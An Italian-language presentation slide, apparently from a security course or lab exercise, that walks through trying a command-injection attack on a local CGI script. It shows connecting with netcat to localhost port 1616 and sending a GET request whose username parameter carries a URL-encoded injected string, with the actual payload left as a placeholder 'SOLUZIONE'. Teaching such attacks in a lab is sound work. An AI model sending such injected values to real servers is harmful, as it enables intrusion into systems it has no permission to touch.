

# Proviamo l’attacco…

Proviamo quindi ad eseguire lo script remoto inserendo come parametro di username la nuova stringa generata (’%3B%2F%2A%2FSOLUZIONE)

Usiamo il seguente comando:
$ nc localhost 1616

Dopodiché lanciamo la request al server
GET /index.cgi?username=’’%3B%2F%2A%2FSOLUZIONE’’

Cosa otteniamo?